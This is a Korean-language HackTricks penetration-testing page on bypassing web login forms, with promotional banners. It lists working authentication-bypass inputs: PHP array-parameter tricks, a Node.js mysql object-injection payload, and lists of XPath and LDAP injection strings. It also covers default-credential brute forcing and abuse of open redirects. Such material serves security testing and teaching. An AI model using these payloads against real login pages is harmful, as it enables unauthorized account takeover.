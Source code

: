 # 로그인 우회

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하세요.**

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/)은 **스페인**에서 가장 관련성이 높은 사이버 보안 이벤트이며 **유럽**에서 가장 중요한 행사 중 하나입니다. **기술 지식을 촉진하는 임무**를 가지고 이 컨그레스는 모든 분야의 기술 및 사이버 보안 전문가들이 모이는 뜨거운 만남의 장소입니다.

{% embed url="https://www.rootedcon.com/" %}

## **정상 로그인 우회**

로그인 페이지를 찾으면, 이를 우회하기 위해 시도할 수 있는 몇 가지 기술이 있습니다:

* 페이지 내 **주석** 확인하기 (아래로 스크롤하고 오른쪽으로?)
* **제한된 페이지에 직접 접근**할 수 있는지 확인하기
* **매개변수를 전송하지 않기** (아무것도 전송하지 않거나 1개만 전송하기)
* **PHP 비교 오류 확인하기:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **내용 유형을 json으로 변경**하고 json 값을 전송하기 (bool true 포함)
* POST가 지원되지 않는다는 응답을 받으면 **GET 요청으로 본문에 JSON을 전송**해 볼 수 있습니다. `Content-Type: application/json`
* nodejs의 잠재적 파싱 오류 확인하기 (읽어보세요 [**이것**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* Nodejs는 해당 페이로드를 다음과 유사한 쿼리로 변환합니다: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` 이는 비밀번호 비트를 항상 true로 만듭니다.
* JSON 객체를 보낼 수 있다면 `"password":{"password": 1}`을 전송하여 로그인을 우회할 수 있습니다.
* 이 로그인을 우회하려면 여전히 **유효한 사용자 이름을 알고 전송해야** 한다는 점을 기억하세요.
* `mysql.createConnection`을 호출할 때 **`"stringifyObjects":true`** 옵션을 추가하면 **매개변수로 `Object`가 전달될 때 모든 예기치 않은 동작을 차단**할 수 있습니다.
* 자격 증명 확인하기:
* 사용 중인 기술/플랫폼의 [**기본 자격 증명**](../../generic-methodologies-and-resources/brute-force.md#default-credentials)
* **일반 조합** (root, admin, password, 기술 이름, 이러한 비밀번호 중 하나를 가진 기본 사용자).
* **Cewl**을 사용하여 사전을 만들고 **기본** 사용자 이름과 비밀번호(있는 경우)를 추가한 후 모든 단어를 **사용자 이름과 비밀번호**로 사용하여 브루트 포스를 시도합니다.
* **더 큰 사전**을 사용하여 **브루트 포스**하기 (**[**브루트 포스**](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**)

### SQL 인젝션 인증 우회

[여기에서 **SQL 인젝션**을 통해 로그인을 우회하는 여러 트릭을 찾을 수 있습니다](../sql-injection/#authentication-bypass).

다음 페이지에서는 SQL 인젝션을 통해 로그인을 우회하기 위해 시도할 수 있는 **사용자 정의 목록**을 찾을 수 있습니다:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No SQL 인젝션 인증 우회

[여기에서 **No SQL 인젝션**을 통해 로그인을 우회하는 여러 트릭을 찾을 수 있습니다](../nosql-injection.md#basic-authentication-bypass)**.**

NoSQL 인젝션은 매개변수 값을 변경해야 하므로 수동으로 테스트해야 합니다.

### XPath 인젝션 인증 우회

[여기에서 **XPath 인젝션**을 통해 로그인을 우회하는 여러 트릭을 찾을 수 있습니다.](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection 인증 우회

[여기에서 **LDAP Injection**을 통해 로그인을 우회하는 여러 가지 트릭을 찾을 수 있습니다.](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Remember Me

페이지에 "**Remember Me**" 기능이 있는 경우, 그것이 어떻게 구현되어 있는지 확인하고 **다른 계정을 탈취**하는 데 악용할 수 있는지 확인하세요.

### Redirects

페이지는 일반적으로 로그인 후 사용자를 리디렉션합니다. 그 리디렉션을 변경하여 [**Open Redirect**](../open-redirect.md)를 유발할 수 있는지 확인하세요. 사용자를 귀하의 웹사이트로 리디렉션하면 일부 정보(코드, 쿠키 등)를 훔칠 수 있을지도 모릅니다.

## Other Checks

* 로그인 기능을 악용하여 **사용자 이름을 열거**할 수 있는지 확인하세요.
* 비밀번호/**민감한** 정보 **양식** **입력**에서 **자동 완성**이 활성화되어 있는지 확인하세요: `<input autocomplete="false">`

## Automatic Tools
* [HTLogin](https://github.com/akinerkisa/HTLogin)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/)은 **스페인**에서 가장 관련성이 높은 사이버 보안 이벤트이며 **유럽**에서 가장 중요한 행사 중 하나입니다. **기술 지식을 촉진하는 사명**을 가지고 이 컨그레스는 모든 분야의 기술 및 사이버 보안 전문가들이 모이는 뜨거운 만남의 장소입니다.

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하세요!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
